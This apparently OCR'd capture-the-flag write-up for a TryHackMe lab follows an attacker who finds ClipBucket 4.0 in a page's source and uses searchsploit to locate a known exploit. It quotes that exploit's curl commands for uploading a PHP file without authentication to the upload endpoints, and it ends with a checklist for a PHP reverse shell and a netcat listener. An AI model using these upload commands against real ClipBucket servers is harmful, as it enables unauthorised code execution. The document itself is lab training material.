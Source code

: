     **it’s not ssh password and username. it used for brodcast subdomain**
    
    **boom we logged in.** 
    
    **the first step is checking for source code.**
    
    **on line 190 we found this** `<!-- ClipBucket version 4.0 -->` **there are so many exploits on this versiiion [here](https://www.google.com/search?client=firefox-b-e&q=clipbucket+version+4.0+exploit)’**
    
    ```html
    ┌──(nazu㉿Nazu)-[~/Desktop/CTF/THM-CTF/VulnNet]
    └─$ searchsploit ClipBucket 4.0
    ------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
     Exploit Title                                                                                                                       |  Path
    ------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
    ClipBucket < 4.0.0 - Release 4902 - Command Injection / File Upload / SQL Injection                                                  | php/webapps/44250.txt
    ClipBucket < 4.0.0 - Release 4902 - Command Injection / File Upload / SQL Injection                                                  | php/webapps/44250.txt
    
    ┌──(nazu㉿Nazu)-[~/Desktop/CTF/THM-CTF/VulnNet]
    └─$ locate php/webapps/44250.txt
    /usr/share/exploitdb/exploits/php/webapps/44250.txt
                                                                                                                                                                           
    ┌──(nazu㉿Nazu)-[~/Desktop/CTF/THM-CTF/VulnNet]
    └─$ cp /usr/share/exploitdb/exploits/php/webapps/44250.txt ~/Desktop/CTF/THM-CTF/VulnNet/click.txt
                                                                                                                                                                           
    ┌──(nazu㉿Nazu)-[~/Desktop/CTF/THM-CTF/VulnNet]
    └─$ ls                          
    click.txt  hash.txt  knockpy_report
    ```
    
    > ClipBucket is an open source **video sharing platform** that allows users to **upload**, share, and manage their videos. It is written in PHP and uses MySQL for its database. It also includes a wide range of features such as user management, video conversion, video embedding, and more.
    > 
    
    **So to get reverse shell we have to explot File Upload Vuln [| curl](https://t.me/mrnazu/626)**
    
    ```html
    2. Unauthenticated Arbitrary File Upload
    Below is the cURL request to upload arbitrary files to the webserver with no
    authentication required.
    
    $ curl -F "file=@pfile.php" -F "plupload=1" -F "name=anyname.php"
    "http://$HOST/actions/beats_uploader.php"
    
    $ curl -F "file=@pfile.php" -F "plupload=1" -F "name=anyname.php"
    "http://$HOST/actions/photo_uploader.php"
    ```
    
    - [x]  PHP Reverse shell
    - [x]  net cat to lestion
    